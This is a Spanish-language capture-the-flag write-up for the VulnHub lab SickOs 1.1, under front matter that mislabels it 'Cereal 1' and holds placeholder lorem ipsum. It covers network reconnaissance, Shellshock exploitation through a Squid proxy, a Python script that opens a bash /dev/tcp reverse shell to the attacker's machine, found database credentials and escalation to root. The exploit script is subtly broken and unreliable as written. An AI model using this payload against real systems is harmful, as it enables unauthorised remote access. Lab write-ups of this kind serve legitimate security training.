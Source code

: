 ```yaml
---
title: Cereal 1
author: ssanjua
datetime: 2024-09-28T16:55:12.000+00:00
slug: Cereal 1 - Vulnhub
featured: true
tags:
  - Vulnhub
  - Shellshock
  - Medium
description:
  Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed ut purus eget sapien.
---
```


- **Name**: SickOs: 1.1
- **Date release**: 11 Dec 2015
- **Author**: [D4rk](https://www.vulnhub.com/author/d4rk,199/)
- **Series**: [SickOs](https://www.vulnhub.com/series/sickos,70/)
- 
## Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them

## About Release

Name........: SickOs1.1
Date Release: 11 Dec 2015
Author......: D4rk
Series......: SickOs
Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
Tester(s)...: h1tch1
Twitter.....: https://twitter.com/D4rk36

---
## Reconocimiento

Primero tratamos de reconocer la IP de nuestro objetivo con arp-scan.

```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

![Descripción](../Screenshots/sickOs(1).png)

Nuestro target es el: `192.168.128.132` procedemos a hacer un escaneo nmap para ver que puertos tiene abiertos y descubrimos el puerto **22** y el **3128**.

```bash
nmap -p- --open -sT -vvv --min-rate 5000 -n -Pn 192.168.128.132 -oG allPorts
```

Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
3128/tcp open  squid-http syn-ack

Datos que extraemos del reconocimiento: 
- Squid-http syn-ack
- Puertos filtrados

![Descripción](../Screenshots/sickOs(2).png)

Investigamos un poco sobre los **Server Squid**:

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. [Definicion web](https://www.squid-cache.org/)

Por lo tanto sabemos que lo que esta haciendo el puerto es servir como proxy, por lo que podemos pensar que se esta corriendo un server en el puerto 80 y que esta usando el Squid como proxy:

Intentamos hacer un curl la ip intermediando un proxy por el puerto **3128** que es el puerto abierto atraves de el servidor Squid proxy.

![Descripción](../Screenshots/sickOs(4).png)

![Descripción](../Screenshots/sickOs(5).png)

![Descripción](../Screenshots/sickOs(6).png)

Ahora podemos intentar listar directorios usando el proxy.

![Descripción](../Screenshots/sickOs(7).png)

Al descubrir un directorio **cgi-bin** nos alerta porque sabemos que si existe este es probable que estemos en presencia de una probable **Shell Shock** [ShellShock - CGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

Vemos si obtenemos algo mas de este dir:

![Descripción](../Screenshots/sickOs(10).png)
![Descripción](../Screenshots/sickOs(9).png)

Buscamos por la web mas información acerca de los **Shell Shock** y encontramos un viejo articulo [Shell Shock](https://blog.cloudflare.com/inside-shellshock/)

>For example, if example.com was vulnerable then

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

Lo intentamos cambiando la instruccion, usando solo la cabecera del ejemplo:

![Descripción](../Screenshots/sickOs(11).png)

Efectivamente tenemos ejecución de comando, por lo que vamos a intentar obtener una **Reverse shell** atraves de un script de python:

```python
#!/user/bin/python3
    
 import sys, signal, requests
 import threading
from pwn import *

def def_handler(sig, frame):
	print("\n[!] - exiting... \n")
	sys.exit(1)
	signal.signal(signal.SIGINT, def_handler)
	main_url = "http://192.168.128.132/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.128.132:3128"}

def shellshock_attack():
	headers = {'User-Agent': "() { :; };
	echo; /bin/bash -c '/bin/bash -i dev/tcp/192.168.128.131/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy) 

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args()).start()
	except Exception as e:
		log.error(str(e))
```

Ejecutamos mientras escuchamos por el puerto que elegimos en el script:

![Descripción](../Screenshots/sickOs(22).png)

Lo logramos, estamos dentro de la maquina victima y podemos ejecutar comandos, ahora tenemos que escalar nuestro privilegio.

Exploramos y encontramos una info interesante dentro del config.php en /var/www/wolfcms (que estaba en el robots.txt pero decidí no explorar esa via)

Dentro de este archivo estan las credenciales para autenticarse en la base de datos, tenemos el *User* y *Password* que podemos utilizar para intentar escalar privilegios en la maquina.

- User: 'root'
- Password: 'john@123'


![Descripción](../Screenshots/sickOs(17).png)

La shell es antigua por lo que su googleas el output siguiente te aconsejan actualizar la shell.

![Descripción](../Screenshots/sickOs(18).png)

Actualizamos e intentamos autenticar con las credenciales encontradas:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![Descripción](../Screenshots/sickOs(19).png)

Pues si! Funcionó, lo intentamos de nuevo y... 

![Descripción](../Screenshots/sickOs(20).png)

Ya somos **root**.

![Descripción](../Screenshots/sickOs(21).png)

Flag encontrada!